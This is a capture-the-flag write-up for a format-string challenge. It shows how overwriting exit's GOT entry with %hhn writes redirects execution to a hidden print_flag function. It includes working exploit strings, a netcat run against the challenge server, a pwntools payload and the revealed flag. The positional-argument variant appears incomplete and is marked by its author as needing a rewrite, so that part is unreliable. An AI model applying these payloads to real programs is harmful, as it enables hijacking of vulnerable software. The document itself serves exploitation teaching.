 # Write-up

# ![](/assets/problem-statement.png)

---

Exploit a format string vulnerability

Flag: **gigem{F0RM@1NG\_1S\_H4RD}**

## Analysis

Suppose we run  the program with the string `AAAAAAAAAAAAAA`

When the program is on `printf`,

![](/assets/at-printf.png)

The stack looks like:

```
BFFFEDC0  BFFFEDD0  MEMORY:BFFFEDD0  <--- ESP (Pointer to our string)
BFFFEDC4  00000002  MEMORY:00000002  Dword 1
BFFFEDC8  00000000  MEMORY:00000000  Dword 2
BFFFEDCC  00000000  MEMORY:00000000  Dword 3
BFFFEDD0  41414141  MEMORY:41414141  <--- Our entered string
BFFFEDD4  41414141  MEMORY:41414141
BFFFEDD8  41414141  MEMORY:41414141
BFFFEDDC  00004141  MEMORY:00004141
```

* The top of the stack contains the pointer \(address\) to our entered string.
* After that there are 3 dwords \(12 bytes\) and then our string begins.

Thus when exploiting, our entered string can be considered as the 4th parameter to printf.

The function which prints the flag is located at `080485AB`. It is not called anywhere by the program. We have to somehow redirect the execution flow to there so that it prints our flag.

```nasm
.text:080485AB public print_flag
.text:080485AB print_flag proc near
.text:080485AB
.text:080485AB var_D= byte ptr -0Dh
.text:080485AB fp= dword ptr -0Ch
.text:080485AB
.text:080485AB push    ebp
.text:080485AC mov     ebp, esp
.text:080485AE sub     esp, 18h
.text:080485B1 sub     esp, 0Ch
.text:080485B4 push    offset s                        ; "This function has been deprecated"
.text:080485B9 call    _puts
.text:080485BE add     esp, 10h
.text:080485C1 sub     esp, 8
.text:080485C4 push    offset modes                    ; "r"
.text:080485C9 push    offset filename                 ; "flag.txt"
.text:080485CE call    _fopen
```

The Global Offset Table looks like:

```
.got.plt:0804A00C 64 A0 04 08 off_804A00C dd offset printf ; DATA XREF: _printfr
.got.plt:0804A010 68 A0 04 08 off_804A010 dd offset gets ; DATA XREF: _getsr
.got.plt:0804A014 6C A0 04 08 off_804A014 dd offset _IO_getc ; DATA XREF: __IO_getcr
.got.plt:0804A018 70 A0 04 08 off_804A018 dd offset puts ; DATA XREF: _putsr
.got.plt:0804A01C 74 A0 04 08 off_804A01C dd offset exit ; DATA XREF: _exitr
.got.plt:0804A020 78 A0 04 08 off_804A020 dd offset __libc_start_main
```

Later in the program after `printf` returns `exit` is called.  
If we modify the address of `exit` in the GOT with that of `print_flag`, it would be executed and we would get our flag.

The entry of `exit` in the GOT is at `0804A01C` and it contains the bytes `74 A0 04 08`.  
The address of `print_flag` in little endian byte order is `AB 85 04 08`.  
Hence we would only need to write the two bytes `AB 85` , as the remaining two are already properly set up.

Summarizing,

Write`0xAB`  \(171\) to `0804A01C`

Write `0x85` \(133\) to `0804A01D`

Since 133 &lt; 171, we can write 133 at `0804A01D` followed by 171 at `0804A01C`.  
\(The reverse is also possible where we have to use wrap around. More on this next\).

#### Building the exploit string

Our exploit string will start with the two addresses in little endian byte order.

```
    -------------8 bytes------------
    |               |              |
    |  1st address  | 2nd address  |
    |               |              |
    \x1d\xa0\x04\x08\x1c\xa0\x04\x08
```

This takes up 8 bytes.

The string is located at an offset of 12 bytes \(3 dwords\) from the pointer to itself \(See above\).  
To reach the start of the string on the stack we need to consume these 3 dwords.  
The format string that can be used is`%08x%08x%08x`

The exploit string generated till this point is

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08x
```

When this is passed to `printf`, the number of bytes it will display = 4 + 4 + 8 + 8 + 8 = 24

To reach 133, we still need to print `133 - 24 = 109` more bytes. We can append this 109 bytes to get:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Alternatively, we can make the last `%08x` to display 109 bytes using space padding:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x
```

Number of bytes displayed till now is 133. We can use the [format specifier](http://www.cplusplus.com/reference/cstdio/printf/) `%hhn` to write this value at the address specified. The address is a pointer to a variable and usually passed as an argument to printf. Here we have provided the address \(`0804A01D`\) at the beginning of the string itself.

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhn
```

`hh` is the length sub-specifier and it indicates to write a byte value i.e. the address is a pointer to a byte. If the value to write is larger than a byte, it would be automatically **wrapped**. The situation is similar for other length sub-specifiers such as `h`, `l` and `ll`. Without any length sub-specifier it defaults to `int`.

Now, at this point, we have written `0x85` \(133\) to the location `0804A01D`. In this process we have also displayed 133 bytes on the terminal.

The next task is to write `0xAB` \(171\) to the location `0804A01C` and for that we need to display `171 - 133 = 38` more bytes. These bytes can again be simply appended to the exploit string. Using this approach our final exploit string would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn
```

```bash
$ python -c "print '\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn'" > exploit
$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
��0000000200000000                                                                                                            0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```

The exploit string can be simplified:

We can use [positional arguments](http://stackoverflow.com/a/6322594/1833653) to `printf` which would eliminate the need for consuming dwords using `%08x`. 

_**This part needs to be re written**_

The exploit string in this case would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%125x%4$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn
```

**Alternative approach instead of appending 38 A's**

Alternatively, before the 2nd address, we can write a dummy dword \(`0xDEADBEEF` here\) and use something like `%38x`, however other field width sub-specifier also have to be reduced by 4.

```
\x1d\xa0\x04\x08\xDE\xAD\xBE\xEF\x1c\xa0\x04\x08%08x%08x%105x%hhn%38x%hhn
```

## Using pwntools \(automated\)

#### Generate the exploit

First parameter \(4\) indicates that the string is the 4th parameter.  
See the [pwntools docs](http://python3-pwntools.readthedocs.io/en/latest/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) for more info.

```py
from pwnlib.fmtstr import fmtstr_payload
open('exploit', 'w').write(fmtstr_payload(4, {0x0804a01c: 0x080485ab}, write_size='byte'))
```

#### Profit :\)

```bash
$ xxd exploit 
0000000: 1ca0 0408 1da0 0408 1ea0 0408 1fa0 0408  ................
0000010: 2531 3535 6325 3424 6868 6e25 3231 3863  %155c%4$hhn%218c
0000020: 2535 2468 686e 2531 3237 6325 3624 6868  %5$hhn%127c%6$hh
0000030: 6e25 3463 2537 2468 686e                 n%4c%7$hhn

$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
����                       This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```




